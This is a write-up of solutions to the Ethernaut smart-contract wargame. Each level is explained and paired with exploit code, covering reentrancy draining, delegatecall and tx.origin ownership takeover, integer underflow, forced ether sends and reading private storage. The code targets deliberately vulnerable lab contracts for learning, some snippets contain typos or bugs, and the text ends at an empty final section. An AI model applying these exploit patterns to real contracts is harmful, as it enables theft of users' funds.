# Ethernaut Full Writeup

## Hello Ethernaut

- This challenge is a warm-up challenge and for those who doesn't know how to interact with contracts using the js librairies.

```js
await contract.info()
await contract.info1()
await contract.info2("hello")

await contract.infoNum()
await contract.info42()

await contract.theMethodName()
await contract.method7123949()

// Here we are asked to submit the password that we know to authenticate but we didn't interact with any passwords. A quick guess, password is a public field in the contract 

const password = await contract.password() // We fetch the values of variables as methods

await contract.authenticate(password);
```

Challenge solved ✅

## Fallback

### Challenge description

You will beat this level if
    - you claim ownership of the contract
    - you reduce its balance to 0

### Analysis

a quick run through the code of the challenge, I extracted the valuable methods and variables we will be using.

  

Here we see how the contribute method works. Pretty simple we send ether and it's recorded for us.

  

Okay the **receive** part. As we see here we are defining a function but without the *function* keyword. That's because the receive function is a *fallback* function, let's say some kind of function that should be existing in all smart contracts but here we are overriding its behaviour.
Actually, since the version 0.6.0 we got two functions to handle fallback cases. *fallback* and *receive*. a little explainer of how they are called ...

```js
// Explainer from: https://solidity-by-example.org/fallback/
    // Ether is sent to contract
    //      is msg.data empty?
    //          /   \ 
    //         yes  no
    //         /     \
    //    receive()?  fallback() 
    //     /   \ 
    //   yes   no
    //  /        \
    //receive()  fallback()
```

So what we need to do here actually ?

1. Contribute so we have a contribution **value non nul**.
2. Trigger the fallback function by sending ether to the contract.

### Exploit

```js
await contract.contribute({value:toWei(etherValue)});
await contract.sendTransaction({value:toWei(etherValue)});
```

Challenge solved ✅

## Fallout

Constructors in solidity are quite a story and they were the source of a big exploit.
Here the challenge is quite simple. All we have is to notice the typo in the constructor function name which makes it a normal **public** function that we can call to get the contract ownership.

```js
await contract.Fal1out();
```

## CoinFlip

`Randomness is just a myth.`

### Challenge description

You'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

### Analysis 

In blockchain randomness is just quite the issue, not only in the blockchain really that implies for all computers systems and is due to the way we are trying to make deterministic systems have an undeterministic results. The matter for the blockchain is its transparency making even finding a seed a quite impossible. 

Here we see the function of coinFlip
  

our seed is actually `block.number` but we can know this value easily from the blockchain. So all we have is create a contract that feeds the flip function the values she expect 😈

### Exploit 

  

Now all we have to do is call the contract method 10 times.

## Telephone

### Challenge Description

- Claim ownership of the contract.

### Analysis

  

Here we see the condition being checked is as simple as `tx.origin != msg.sender` but what does `tx.origin` means ?
Actually `tx` is a global variable in the smart contract ( same as js global variables ) and it means the transaction that have been initiated on the function call.
When we call a method from web3 actually we are interacting directly with the smart contract so it will initiate the transaction but when we call a contract from another contract the `tx.origin == caller.address` 

### Exploit

Based on our analysis we understand all we need is to call the function from an evil contract and pass our address as paramater.

```js
interface TelephoneInterface{ 
    function changeOwner(address _owner) external; 
}

contract EvilContract { 
    
    TelephoneInterface victimContract;
    contructor(address victimAddress) public {
        victimContract = TelephoneInterface(victimAddress);
    }

    function becomeOwner(address newOwner){
        victimContract.changeOwner(newOwner);
    }
}
```

Challenge solved ✅

## Token

### Analysis

This challenge is about **unsigned integers**. We need to be extra duper careful when handling them as they *overlap*. What does that mean ? 

```c#
uint8 X= 255;
X=X+1 // X = 0 ;
```
Now you see it.

  

```js
 require(balances[msg.sender] - _value >= 0); // How about we pass a big value to this poor unsigned balances[msg.sender] ?
```

### Exploit

We got 20 tokens, So I will be generous and give more than I own.

```js
 await contract.transfer(player,21);
```

Challenge solved ✅

## Delegation

### Challenge description

The goal of this level is for you to claim ownership of the instance you are given.

### Analysis 

Here we are exposed to the `delegateCall` function. If you don't know what this function does I will try to sum it up. It's a low level way to call a method of a contract ( in our case `pwn` ) in the context of another, it means it gets the storage values and global ones of the contract who called `delegateCall`.

  

  

Okay so what is *msg.data* ?
msg.data can be the function selector with the paramaters in a bytes encoded format

### Exploit

I wrote a contract to get the bytes, we can also use `web3.eth.abi.encodeFunctionCall` from the console.

```js
contract Utility {
     function pwnEncoded () public pure returns (bytes memory) {
      return abi.encodeWithSignature("pwn()"); 
    }
```

```js
await contract.sendTransaction({data:valueFromContract});
```
Challenge solved ✅

## Force

We will learn another capability of smart contracts which sometimes became problematic if we rely on it.

### Challenge description

The goal of this level is to make the balance of the contract greater than zero.

### Analysis

Nothing to see there the contract is pretty empty. But a big security consideration that no contract can prevent incoming ethers from the blockchain. All we can do is not rely the contract balance in our contract logic.

[Link for more informations](https://docs.soliditylang.org/en/develop/security-considerations.html)

So what is the method to send ethers to an empty contract or let's say a contract that has logic which tries to prevent incoming ethers. A quick googling and I came to the answer it's the method `selfdestruct(address)`

> The only way to remove code from the blockchain is when a contract at that address performs the selfdestruct operation. The remaining Ether stored at that address is sent to a designated target and then the storage and code is removed from the state

[Docs Link](https://docs.soliditylang.org/en/develop/introduction-to-smart-contracts.html?highlight=selfdestruct#deactivate-and-self-destruct)

We got everything we need now let's hack !

### Exploit

```js
contract EvilContract { 
    // payable public so we can send it some ether to pass.
    function forceSendBySacrifice(address victimAddress) payable public {
        selfdestruct(_address);

    }
}
```

## Vault

`transparency has no limits`

### Challenge description

Unlock the vault to pass the level!

### Analysis

  
  

The private keyword of solidity is quite tricky. Private variables limit their scopes to the contract so they can't be viewed or accessed by other **contracts** logic. However anyone can view the variable values. This challenge is simple and all we have to understand is the storage is a key value store where the keys are from 0 to 2^256.

Here we can see got two storage variables `locked` and `password`. I highly encouraging reading the docs [Storage solidity Docs](https://docs.soliditylang.org/en/develop/internals/layout_in_storage.html?highlight=storage) to understand how these variables are layed out.

bytes32 will take a whole slot so it can share the slot with locked. We will have then :

*slot0*  `locked`
*solt1*  `password`

### Exploit

```js
 const password = await web3.eth.getStorageAt(address, 1);
 await contract.unlock()
```

Challenge solved ✅

## King

### Challenge description

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

### Analysis

  

Pretty interesting, at first sight you might find this function unbreakable ( as I did ). But then a good look to the transfer method. I was thinking in term of a user who will interact with this contract. How about another contract ?
If we go back to the `fallback` challenge we talked about *fallback* methods. Here when we call `transfer` a callback function of the contract to whom we are transfering funds to will be triggered.

### Exploit

1. Make our contract the king.
2. Our contract now revert the transaction and won't step down from the throne 😈.

```js
contract EvilContract { 

    function becomeKing(address victimAddress) public payable { 
        victimAddress.call{value:1000000000000000000}("");
    }

    function() external payable { // fallback function definition
        revert("The kingdom is mine now !");
    }
}
```

Challenge solved ✅

## Re-entrancy

### Challenge description

The goal of this level is for you to steal all the funds from the contract.

### Analysis

A quick read about Re-entrancy attack is all we need: [HackerNoon Article](https://hackernoon.com/hack-solidity-reentrancy-attack).

  

So he is actually our balance after the call that's all we need !

### Exploit 

```js
interface Reentrance {

    function donate(address _to) external payable;
    function withdraw(uint amount) public;
}

contract EvilContract {
    Reentrance victimContract;
    address victimAddress;
    uint donatedValue;

    constructor(address _victimAddress) public payable {
        // Set our victim contract, fund the contract.
        victimContract = Reentrance(_victimAddress);
        victimAddress= _victimAddress
    }

    function attack(uint _donatedValue) public {
        victimContract.donate.value(address(this),{value:_donatedValue});
        victimContract.withdraw(_donatedValue);
        donatedValue=_donatedValue
    }

    function() public payable {
        // Receiver for funds withdrawn by the attack
            if(victimAddress.balance>= donatedValue )
            victimContract.withdraw(msg.value);
        }
}
```

Now we should just do some arithmetic to clear all the funds and not having to donate again and withdraw. If we have 1 ether as initial balance keep it to multipliers of 10 and so on.

Challenge solved ✅

## Elevator

`with trust, everyone can get to the last floor`

### Challenge Description

This elevator won't let you reach the top of your building. Right?

### Analysis

  
This function uses the method the msg.sender to know if the floor is accessible or not. The problem here is :

1. `Elevator` contract has no control over the logic of the `Building` contract.
2. The `goTo` function is actually `public` which makes it possible to have some state changes inside it. 

And all we need is to make the isLastFloor function returns false at first so we get inside the if block and true to set top. 

### Exploit

```js
interface Elevator { 
 function goTo(uint _floor) external;
}

contract EvilBuilding { 
    uint count= 0; 
    function isLastFloor(uint) external returns (bool){ 
        count ++ ; 
        return count%2==0 ? true : false; // The first time will pass false the second true
    }

    function callAttack(address ElevatorAddress) public {
        Elevator elevatorContract = Elevator(ElevatorAddress);
        elevator.goTo(10); // put any number here really
    }
}
```

## Privacy

### Challenge description

The creator of this contract was careful enough to protect the sensitive areas of its storage.
Unlock this contract to beat the level.

### Analysis

  

As we said before, every variable in the storage can be accessed all we have to do is find which slot it's residing in. Same applies here.

We got the following:

```js
// [0] bool locked
// [1] uint256 ID
// [2]      awkwardness | denomination | flattening
// arrays start always in a new slot 
// [3] bytes32 data[0]
// [4] bytes32 data[1]
// [5] bytes32 data[2]
```

### Exploit

We know the position of the password . We can unlock the contract. 

```js
await contract.getStorageAt(INSTANCE_ADDRESS,5);
/// We can manually extract the least significant 16 bytes or simply write a util contract like below
```

```js
contract Utils { 
    function get16Bytes(bytes32 value) public returns (bytes16) {
        return bytes16(value);
    }
}
```

```js
await contract.unlock(Returned_Value);
```

## Gatekeeper One

This challenge gave me hard time, two days to solve it but I learnt a lot during those days.

### Challenge description

Make it past the gatekeeper and register as an entrant to pass this level.

### Analysis

Okay so we got three modifiers, each one represents a `barrier` we need to break through. I will be going through each modifier one by one.

#### gateOne

Looking to this gate it sounds really familiar

  

It implies that we should be using another contract to interact with the gate.

#### gateThree

I will leave gateTwo the last one as it's the most annoying ( not hard ) one to pass.

  

We got three conditions to pass and lot of type conversion 🙂.It's time we learn how conversions works in solidity [Solidity Type conversions](https://docs.soliditylang.org/en/v0.6.0/types.html?highlight=conversions#explicit-conversions)

Let's go through each condition one by one

1. First condition

```js
require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
```

Let's say uint64(_gateKey) = 0x???????????????? and now we neeed to find the bytes we have 

*uint16 == uint32* which translates to 0x0000AAAA== 0xAAAA. => uint64(_gateKey) = 0x????????0000AAAA

2. Second Condition

```js
require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
```

**uint32 != uint64 `` which translated to 0x????????0000AAAA != 0x0000AAAA ( the value we found in condition 1 ) so here we need make sure the `?` are different than zeros.

3. Last condition

```js
require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
```

It just tells us that the `AAAAA` should be derived from the `tx.origin` value.

Okay to sum it up we have the format of `0xFFFFFFFF0000FFFF` for our contract. so we can get the values by using a logical operator `&`.

#### gateTwo

  

what is the `gasleft` function ?
the gasleft function tells us how much gas is left. As we know each transaction needs a certain amount of gas that we pay for. But do you know how the amount of gas if calculated ?
we can chekc the website [Opcodes, EVM](https://www.ethervm.io/), actually each opcode has its fixed consumption of gas. We are here determined to get the value of the gasleft when we arrive at the condition and make sure it can be divided by that number.

### Exploitation


